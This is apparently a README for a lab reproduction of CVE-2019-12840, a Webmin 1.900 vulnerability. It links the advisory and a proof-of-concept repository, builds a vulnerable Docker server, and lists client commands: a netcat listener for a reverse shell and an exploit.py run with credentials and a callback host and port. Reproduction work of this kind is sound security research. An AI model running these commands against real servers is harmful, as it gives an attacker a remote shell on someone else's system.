 # CVE-2019-12840

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-12840>


## PoC / Exploit
* <https://github.com/KrE80r/webmin_cve-2019-12840_poc>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900

## Reproduction 

* Server
    - Docker:
    ```shell script
    sudo docker build -t cve-2019-12840 .
    sudo docker run -p10000:10000 -it cve-2019-12840
    ```
    
    - Script:
    ```shell script
    bash installation.sh
    ```    

* Client
    - Terminal 1 (reverse shell) :
    ```shell script
    nc -nlv 7777
    ```
    
    - Terminal 2:
    ```shell script
    python3 exploit.py https://HOSTNAME_IP:10000 -U test -P qwerty -lhost LOCAL_IP -lport 7777
    ```
  